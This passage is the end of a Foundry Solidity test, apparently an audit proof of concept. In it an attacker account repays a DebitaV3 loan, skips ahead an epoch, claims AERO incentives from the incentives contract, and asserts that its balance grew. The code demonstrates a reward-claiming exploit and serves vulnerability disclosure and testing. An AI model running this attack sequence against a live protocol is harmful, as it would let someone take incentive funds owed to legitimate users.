 ```solidity

        //===========================//
        // Attacker pays back the loan
        //===========================//

        vm.startPrank(attacker);

        // Pay interest
        // deal(principle, attacker, 1000e18, false);
        IERC20(principle).approve(address(debitaV3Loan), type(uint256).max);

        // Cancel loan
        uint[] memory loanIndexes = allDynamicData.getDynamicUintArray(1);
        loanIndexes[0] = 0; // index of accepted offer
        debitaV3Loan.payDebt(loanIndexes);

        vm.stopPrank();

        //=============================================//
        // Jump to the next epoch and claim the bribes
        //=============================================//

        vm.warp(block.timestamp + 15 days);

        assert(incentivesContract.currentEpoch() == 3);

        {
          uint balanceBefore = IERC20(AERO).balanceOf(attacker);

          address[] memory principlesIncentive = allDynamicData.getDynamicAddressArray(1);
          address[] memory tokenUsedIncentive = allDynamicData
              .getDynamicAddressArray(1);
          address[][] memory tokenIncentives = new address[][](
              tokenUsedIncentive.length
          );

          principlesIncentive[0] = principle;
          tokenUsedIncentive[0] = AERO;
          tokenIncentives[0] = tokenUsedIncentive;

          vm.startPrank(attacker);

          incentivesContract.claimIncentives(principlesIncentive, tokenIncentives, 2);

          uint balanceAfter = IERC20(AERO).balanceOf(attacker);

          vm.stopPrank();

          console.log("Balance attacker before", balanceBefore);
          console.log("Balance attacker after", balanceAfter);

          assert(balanceAfter > balanceBefore);
        }
    }
```
